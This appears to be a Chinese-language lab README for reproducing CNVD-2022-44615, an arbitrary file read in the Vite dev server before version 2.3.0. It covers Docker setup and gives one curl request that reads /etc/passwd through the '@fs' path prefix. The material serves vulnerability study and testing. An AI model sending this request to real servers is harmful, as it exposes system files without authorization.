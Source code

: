 # Vite开发服务器任意文件读取漏洞（CNVD-2022-44615）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 2.3.0 版本之前，可以通过 `@fs` 前缀读取文件系统上的任意文件。

参考链接：

- <https://github.com/vitejs/vite/issues/2820>

## 环境搭建

执行以下命令启动Vite 2.1.5开发服务器：

```bash
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:3000`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

使用标准的`@fs`前缀访问`/etc/passwd`，可以获取文件内容：

```bash
curl "http://your-ip:3000/@fs/etc/passwd"
```

![](1.png)
